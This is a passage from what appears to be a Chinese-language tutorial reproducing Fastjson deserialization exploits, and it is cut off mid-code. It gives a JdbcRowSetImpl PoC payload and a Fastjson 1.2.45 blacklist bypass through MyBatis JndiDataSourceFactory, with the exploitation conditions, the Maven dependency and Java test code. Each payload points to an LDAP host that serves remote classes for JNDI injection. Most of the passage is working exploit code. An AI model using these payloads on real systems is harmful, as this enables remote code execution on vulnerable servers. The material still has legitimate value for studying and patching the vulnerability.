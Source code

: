 poc

```json
{    
	"@type":"[com.sun.rowset.JdbcRowSetImpl"[,    
	{"dataSourceName":"ldap://127.0.0.1:1234/Exploit",    
	"autoCommit":true
}
```

## Fastjson 1.2.45

`fastjson1.2.45`，此版本升级后，存在一个`黑名单匹配绕过`，绕过类

org.apache.ibatis.datasource.jndi.JndiDataSourceFactory

利用条件如下

1. 目标服务端存在`mybatis`的jar包。
2. 版本需为 `3.x.x ～ 3.5.0`
3. autoTypeSupport属性为true才能使用。（fastjson >= 1.2.25默认为false）

#### 复现

pom.xml中添加mybatis的依赖

```xml
<dependency>
    <groupId>org.mybatis</groupId>
    <artifactId>mybatis</artifactId>
    <version>3.4.6</version>
</dependency>
```

测试代码

```java
package com.example.fastjson.Fastjson1_2_24;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;



import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;

public class Fastjson45 {
    public static void main(String[] args) {
        // 启用AutoType支持
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);

        // Fastjson 1.2.45 利用MyBatis的JndiDataSourceFactory进行漏洞利用
        String payload = "{\n" +
                "  \"@type\":\"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory\",\n" +
                "  \"properties\":{\n" +
                "    \"data_source\":\"ldap://192.168.32.128:50389/93c3d0\"\n" +
                "  }\n" +
                "}";

        System.out.println("正在执行Fastjson 1.2.45漏洞测试...");
        System.out.println("Payload: " + payload);

        try {
            JSON.parse(payload);
            System.out.println("漏洞测试执行完成");
        } catch (Exception e) {
            System.out.println("执行过程中出现异常: " + e.getMessage());
```